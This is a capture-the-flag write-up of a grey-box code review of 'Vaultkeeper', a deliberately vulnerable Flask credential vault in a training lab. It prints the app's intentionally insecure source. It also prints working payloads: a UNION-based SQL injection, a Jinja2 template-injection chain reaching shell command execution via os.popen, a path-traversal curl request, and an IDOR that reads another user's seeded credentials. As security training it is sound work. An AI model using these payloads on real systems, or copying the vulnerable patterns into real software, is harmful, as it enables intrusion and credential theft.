# Web Frameworks: Code Review (Vaultkeeper)

**Room difficulty:** Medium | **Time:** ~60 min | **Category:** White-box / grey-box web app testing

## Overview

This room is about reading source code like an attacker instead of black-box fuzzing. We're handed grey-box access to **Vaultkeeper**, a small Flask credential-storage tool: SSH into the box, source sitting right there in `~/vaultkeeper`, and a live instance running on port 8080. No black-box guessing — the whole point is to trace user input from where it enters the app (a *source*) to where it lands in something dangerous (a *sink*), using a fixed reading order first, then grep/Semgrep to triage a bigger codebase fast.

By the end we pull three flags out of the running app: one via SQL injection, one via Server-Side Template Injection escalated to command execution, and one via path traversal.

---

## Step 1 — Getting In

Straightforward SSH into the review account using the creds given in the room (`analyst` / `vaultkeeper`), which — as it turns out later — are the *exact same credentials* the Vaultkeeper web app itself uses. Password reuse between an SSH review account and an application login is already a finding worth noting before we've read a single line of code.



Opened the actual web app in the browser to see what we're dealing with. It's a small "Internal credential storage and retrieval service" — a vault app, name checks out.



### A quick honest note on task 2

Early on, the room's Task 2 asked three straight recall questions (which file holds a Python dependency manifest, which decorator marks a Flask route, which file holds `DEBUG`/`SECRET_KEY`). Those are answerable directly from the room's own reading material without touching the lab at all. I flagged this to myself immediately — answering from the text isn't the same as actually doing the review — so before moving on I went and did the reading order for real against the live Vaultkeeper source instead of just banking the three answers and moving on. Everything from here down is the *actual* review, not the reading-material version of it.

---

## Step 2 — Mapping the Attack Surface (the Reading Order)

The room teaches a fixed reading order for any unfamiliar codebase: README → dependency manifest → config → routing → auth middleware → models → individual handlers. Applied it here.

**Directory listing** — five files, two folders:



```
app.py            — the Flask application
config.py         — configuration
init_db.py        — DB seeding script
requirements.txt  — dependency manifest
templates/        — Jinja2 templates
uploads/          — where uploaded/stored files live
```

**Routing — the attack surface map.** Grepped for every `@app.route` to get the full list of entry points before reading any handler logic in detail:



```
/                    (line 50)
/login               (line 55)  — GET, POST
/logout              (line 73)
/search              (line 79)
/vault/<int:item_id> (line 105)
/files/download      (line 117)
```

Already some names jump out before reading a single handler: `/search` smells like injection, `/vault/<int:item_id>` smells like an IDOR (sequential integer ID, no obvious ownership scoping visible from the route alone), and `/files/download` smells like path traversal.

**Manifest + config**, read together:



```
Flask==3.0.3
Werkzeug==3.0.3

SECRET_KEY = "vk_s3cr3t_d0_n0t_sh1p_2026"
DEBUG = True
UPLOAD_DIRNAME = "uploads"
```

Two findings right there before we've even opened `app.py` properly:

- **Hardcoded `SECRET_KEY`** committed straight into source. This signs Flask's session cookies — anyone who reads this file can forge a valid signed session and authenticate as anyone.
- **`DEBUG = True`** left on. Combined with anything that leaks exception text back to the client, this becomes a live information disclosure channel (and, in a worse-configured deployment, a path to the Werkzeug interactive debugger).

**Auth boundaries.** Checked which routes actually enforce login by grepping with context around each `@app.route`:



No decorator sits directly above the `@app.route` lines in a plain grep window, which told me the auth check must live either inline in the function body or via a second stacked decorator not caught by a 2-line window. Reading `app.py` in full (below) confirmed it's a stacked `@login_required` decorator defined earlier in the file, applied to `/search`, `/vault/<item_id>`, and `/files/download`. `/`, `/login`, and `/logout` are intentionally public.

### Full source read

Reading `app.py` top to bottom, in order, the pieces that mattered:

```python
def login_required(view):
    @wraps(view)
    def wrapped(*args, **kwargs):
        if "user_id" not in session:
            return redirect(url_for("login"))
        return view(*args, **kwargs)
    return wrapped
```

Standard session-based auth gate. Applied correctly to the three sensitive routes — so *authentication* is fine. What's missing, as I found out, is *authorization* on one of them.

```python
@app.route("/search")
@login_required
def search():
    q = request.args.get("q", "")
    uid = session["user_id"]

    heading = render_template_string("Results for: " + q) if q else ""

    cursor.execute(
        f"SELECT title, secret FROM vault WHERE owner_id = {uid} AND title LIKE '%{q}%'"
    )
```

Two separate bugs stacked in the same eight lines:

1. `q` gets concatenated directly into a string that's handed to `render_template_string` — that's SSTI, because the input is compiled and executed as Jinja2 template code, not just displayed as text.
2. `q` also gets f-string-interpolated straight into a raw SQL query with no parameterization — classic SQL injection. The `owner_id = {uid}` clause is clearly meant to scope results to the logged-in user only, but since `q` is attacker-controlled and unescaped, a `'` can break out of the `LIKE '%...%'` clause and rewrite the query entirely — including bypassing that owner scoping.

```python
@app.route("/vault/<int:item_id>")
@login_required
def vault_item(item_id):
    row = db.execute(
        "SELECT id, title, secret, owner_id FROM vault WHERE id = ?", (item_id,)
    ).fetchone()
    if row is None:
        abort(404)
    return render_template("vault_item.html", item=row)
```

This query *is* parameterized — no SQLi here. But there's no check anywhere that `row["owner_id"]` matches the logged-in user's ID. Any authenticated user can walk `/vault/1`, `/vault/2`, `/vault/3`... and read anyone's vault entries. Textbook IDOR — auth present, authorization missing.

```python
@app.route("/files/download")
@login_required
def download():
    filename = request.args.get("file", "")
    path = os.path.join(UPLOAD_DIR, filename)
    if not os.path.isfile(path):
        abort(404)
    return send_file(path)
```

`filename` goes straight into `os.path.join` with zero sanitization. `os.path.join` doesn't stop `../` sequences from walking out of `UPLOAD_DIR`, and if `filename` is an absolute path it discards `UPLOAD_DIR` entirely. Path traversal, plain and simple. The fix would've been `send_from_directory`, which routes through Werkzeug's `safe_join` and 404s on escape attempts — this app uses the dangerous `send_file(os.path.join(...))` shape instead.

---

## Step 3 — Triage With grep and Semgrep

Manual reading works for a five-file toy app, but the room's point is that it doesn't scale — so the next step is running the same hunt with tooling, to double-check nothing got missed and to build the habit for when the codebase is 300 files instead of one.

**Grep for dangerous sinks:**



```bash
grep -rn --include="*.py" -E "os\.system|subprocess|eval\(|exec\(|pickle\.loads|render_template_string|cursor\.execute|send_file|open\(" .
```

Hit all three real sinks (`render_template_string` line 86, `cursor.execute` line 93, `send_file` line 124) plus two import-line matches that are just noise. Which is exactly the room's point: grep gives you a candidate list, not a verdict — you still have to read each hit to see if the value reaching it is actually attacker-controlled.

**Grep for hardcoded secrets and config antipatterns:**



```bash
grep -rnE "(SECRET|KEY|TOKEN|PASSWORD|API_KEY)\s*=\s*['\"]" --include="*.py" .
grep -rnE "DEBUG\s*=\s*True|TESTING\s*=\s*True|verify\s*=\s*False" .
grep -rE "AKIA[0-9A-Z]{16}" .
```

Confirmed the `SECRET_KEY` and `DEBUG = True` findings from the manual read. No AWS keys in this codebase (that grep came back empty, as expected — the box is offline by design and there's no cloud creds baked in here).

**Semgrep, using the offline ruleset pre-installed at `/opt/review/semgrep-rules`** (the box has no internet, so a registry ruleset like `p/owasp-top-ten` isn't reachable here — that's a "run this on a connected machine instead" situation):

```bash
semgrep --config /opt/review/semgrep-rules .
```




Four findings, all matching what manual review already turned up:

| Rule | File:Line | Issue |
|---|---|---|
| `vk-ssti-render-template-string` | app.py:86 | SSTI via unsanitized input into `render_template_string` |
| `vk-sqli-fstring-execute` | app.py:93-95 | SQL built with an f-string passed to `execute()` |
| `vk-path-traversal-send-file` | app.py:124 | Path-joined user value flowing into `send_file()` |
| `vk-hardcoded-secret` | config.py:6 | Hardcoded `SECRET_KEY` in source |

**Worth calling out explicitly:** Semgrep did *not* flag the IDOR on `/vault/<int:item_id>`. That query is fully parameterized, so there's no injection pattern for a static analysis tool to match against — the bug is a missing business-logic check (no `owner_id == current_user` comparison anywhere), not a syntax-level flaw. This is a good lesson to carry forward: grep and Semgrep triage narrows the list fast, but broken access control almost always needs a human actually reading the handler against the data model. Tooling didn't catch every real bug here, and a report that only lists tool output would have missed a legitimate vulnerability.

---

## Step 4 — Confirm and Exploit

Time to prove each finding against the live instance and pull the flags.

### Logging into the web app

The app itself needs its own login, separate from the SSH session (even though the creds happen to be identical). Checked `init_db.py` to understand the seeded accounts and confirm what I was working with:



```python
USERS = [
    (1, "admin",   generate_password_hash("R3dT34m-w0nt-cr4ck-th1s-2026", ...), "admin"),
    (2, "analyst", generate_password_hash("vaultkeeper", ...), "user"),
]

VAULT = [
    (1, 2, "GitHub PAT",       "ghp_analystDummyToken..."),
    (2, 2, "Personal Email",   "analyst@vault.local / s0meOldPassw0rd"),
    (3, 1, "Production DB",    "postgres://admin:S3rv3r-Pr0d-P@ss@db.internal/prod"),
    (4, 1, "Backup Server",    "backup-root : B4ckup#Server#2026"),
]
```

Confirms `analyst` (id 2) owns vault items 1-2 and admin (id 1) owns items 3-4 — and admin's password is deliberately long/random, so it's not meant to be cracked. The intended path to admin's secrets is the IDOR, not credential guessing.

Logged into the web UI with `analyst` / `vaultkeeper`:



Landed on `/search`, seeing analyst's own two vault entries as expected:



### Confirming the IDOR (not a flag, but a real finding)

Before chasing the flags, tested the access-control bug I'd already spotted in source. Just navigated straight to:

```
http://10.49.133.0:8080/vault/3
```

While still logged in as `analyst`:



That's admin's **Production DB** credential (`postgres://admin:S3rv3r-Pr0d-P@ss@db.internal/prod`), retrieved by an authenticated-but-unauthorized user just by guessing a sequential integer in the URL. No flag attached to this one in the room, but it's a real, serious finding for the writeup — full credential disclosure across accounts with zero extra effort.

### FLAG1 — SQL Injection via `/search`

The plan: use the same curl session cookie against the search endpoint's raw f-string query, and UNION in a second result set from `system_flags` — a table that isn't scoped to any `owner_id`. The original query returns two columns (`title, secret`), so the UNION needs to match that column count.

First tried logging in via curl to get a reusable session cookie jar:

```bash
curl -s -c jar --data "username=analyst&password=vaultkeeper" "http://localhost:8080/login"
```

(Ran this twice by habit before actually needing to — first one alone was already enough, the cookie jar just gets overwritten either way, no harm done.)

Then tested the SSTI smoke test and the SQLi payload together from the SSH session:



But before running it from the terminal, first tried the payload straight through the browser search box to see the mechanics up close:

```
q = x' UNION SELECT flag, flag FROM system_flags--
```



**How it works:** the leading `'` closes the `title LIKE '%...'` string the handler was building. `UNION SELECT flag, flag FROM system_flags` appends a second result set with two columns, lining up with the `title, secret` the original query already selects. The trailing `--` comments out whatever's left of the original query (the closing `%'`), so the whole thing parses as valid SQL. Since `system_flags` isn't scoped to any owner, the flag comes straight back in the results table.

```
FLAG1 = THM{un10n_b4s3d_sql1_dump3d}
```

### FLAG2 — SSTI escalated to command execution

Same `/search` handler, same `q` parameter — but this time targeting the `render_template_string` sink instead of the SQL sink. First the smoke test, confirming Jinja2 is actually evaluating the input rather than echoing it as plain text:

```bash
curl -s -b jar --get "http://localhost:8080/search" --data-urlencode "q={{7*7}}" | grep -oE 'Results for: [0-9]+'
```

Output: `Results for: 49` — confirmed. If it had reflected literally as `{{7*7}}`, that would mean the value was being passed as data rather than compiled as template code.

From there, climbed the Jinja2 object graph using a built-in helper (`cycler`) that's always in scope inside a template, to reach the `os` module and run a command:

```bash
curl -s -b jar --get "http://localhost:8080/search" \
  --data-urlencode "q={{ cycler.__init__.__globals__.os.popen('printenv FLAG2').read() }}" \
  | grep -oE 'THM\{[^}]+\}'
```

**The gadget chain, hop by hop:**
- `cycler` — a helper Jinja2 leaves in scope inside every template
- `.__init__` — its constructor, an ordinary Python function
- `.__globals__` — the global namespace of the module that *defined* that function (`jinja2.utils`)
- that module happens to import `os` at the top, so `.os` reaches the actual `os` module from inside the sandboxed-feeling template
- `.popen('printenv FLAG2').read()` — runs a real shell command and reads its output back


```
FLAG2 = THM{j1nj4_ss71_to_rc3}
```

That's SSTI going all the way to arbitrary command execution — the app keeps `FLAG2` in its process environment, and this reads it straight out via a shell command run from inside a "template."

### FLAG3 — Path Traversal via `/files/download`

Last one. The handler joins `filename` onto `UPLOAD_DIR` with `os.path.join` and calls `send_file`, with no check that the resolved path stays inside `UPLOAD_DIR`. Walked back out using relative traversal:

```bash
curl -s -b jar "http://localhost:8080/files/download?file=../../../flag3.txt"
```



```
FLAG3 = THM{send_file_tr4v3rs4l_w1n}
```

---

## Full Findings Summary

| # | Class | Location | Root Cause | Exploited? |
|---|---|---|---|---|
| 1 | SQL Injection | `/search` (app.py:93-95) | f-string interpolation into raw SQL | ✅ FLAG1 |
| 2 | Server-Side Template Injection → RCE | `/search` (app.py:86) | User input compiled as Jinja2 via `render_template_string` | ✅ FLAG2 |
| 3 | Path Traversal | `/files/download` (app.py:117-124) | Unvalidated `os.path.join` + `send_file` | ✅ FLAG3 |
